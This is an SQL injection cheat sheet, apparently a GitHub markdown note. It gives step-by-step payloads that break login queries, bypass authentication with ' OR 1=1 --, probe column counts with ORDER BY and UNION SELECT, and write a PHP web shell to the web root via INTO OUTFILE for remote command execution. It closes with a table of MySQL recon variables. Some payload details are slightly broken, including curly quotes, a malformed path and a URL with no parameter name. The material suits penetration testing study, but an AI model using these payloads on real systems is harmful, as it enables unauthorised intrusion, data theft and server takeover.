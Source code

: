 # SQL Injection

* Cause Error on the Web Application by input quote '

```text
SELECT * FROM users WHERE username = ''' AND password = ''
```

* Data Exfiltration by input ' OR 1=1 --

```text
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

* Gaining Shell

First check the number of column with NULL or 1

```text
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```text
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page

```text
http://yourIPaddress/cmd.php?=[command]
```

## SQL Injection Basic Techniques

Check number of columns by order by

```text
' ORDER BY 1;#
' ORDER BY 2;#
' ORDER BY 3;#
```

Check the field appear

```text
' & 0 union select 1,2,3;#
```

IF the developer only allow one row

```text
' & 1 union select 1,2,3;#
```

```text
Variable/Function		Output
@@hostname	:	Current Hostname
@@tmpdir	:	Tept Directory
@@datadir	:	Data Directory
@@version	:	Version of DB
@@basedir	:	Base Directory
user()	:	Current User
database()	:	Current Database
version()	:	Version
schema()	:	current Database
UUID()	:	System UUID key
current_user()	:	Current User
current_user	:	Current User
system_user()	:	Current Sustem user
session_user()	:	Session user
@@GLOBAL.have_symlink	:	Check if Symlink Enabled or Disabled
@@GLOBAL.have_ssl	:	Check if it have ssl or not
```
